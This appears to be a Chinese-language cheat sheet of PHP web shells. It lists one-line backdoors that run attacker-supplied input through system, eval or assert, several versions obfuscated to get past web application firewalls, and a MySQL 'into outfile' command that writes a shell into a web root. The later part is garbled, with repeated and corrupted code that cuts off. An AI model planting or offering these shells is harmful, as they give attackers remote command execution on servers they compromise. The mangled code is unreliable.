 ### PHP
~~~

<pre> 
<body>
<? @system($_GET["cc"]); ?>
</body> 
</pre>
~~~
### 普通一句话
~~~
<?php eval($_POST[cc123]) ?>


<?php @eval($_POST['cc123']);?>
~~~
### PHP系列
~~~
<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["xindong"]); ?>


<?php $lang = (string)key($_POST);$lang($_POST['xindong']);?>


<?php $k="ass"."ert"; $k(${"_PO"."ST"} ['xindong']);?>


<?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST["xindong"]);  ?>


<?php                  
@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";                  
@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";                  
@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}                  
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);?>    密码是  -7
~~~
### 过狗一句话
~~~

select '<?php @eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'
~~~
~~~

<?php $_=""; $_[+$_]++; $_=$_.""; $___=$_[+""];//A $____=$___; $____++;//B $_____=$____; $_____++;//C $______=$_____; $______++;//D $_______=$______; $_______++;//E $________=$_______; $________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;//O $_________=$________; $_________++;$_________++;$_________++;$_________++;//S $_=$____.$___.$_________.$_______.'6'.'4'.'_'.$______.$_______.$_____.$________.$______.$_______; $________++;$________++;$________++;//R $_____=$_________; $_____++;//T $__=$___.$_________.$_________.$_______.$________.$_____; $__($_("ZXZhbCgkX1BPU1RbMV0p")); ?> <?php $_REQUEST['a']($_REQUEST['b']); ?> <?php $t=$_GET['t']; $tt=$_GET['tt']; $s=
t;$s($REQUEST[′cc123′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=sert$s=
t;$s($REQUEST[′cc123′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=sert$s=
t.$ttt; $s($_REQUEST['cc']);?> <?php $t=$_GET['t']; //t=tt $tt=$_GET['tt']; //tt=as $ttt=$_GET['ttt']; //ttt=s $tttt=$_GET['tttt']; //ttt=ert $s=
t.$ttt.$tttt;$s($REQUEST[′cc′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=tttt$tttt=$GET[′tttt′];//ttt=sert$s=
t.$ttt.$tttt;$s($REQUEST[′cc′]);?><?php$t=$GET[′t′];//t=tt$tt=$GET[′tt′];//tt=as$ttt=$GET[′ttt′];//ttt=tttt$tttt=$GET[′tttt′];//ttt=sert$s=
t.
~~~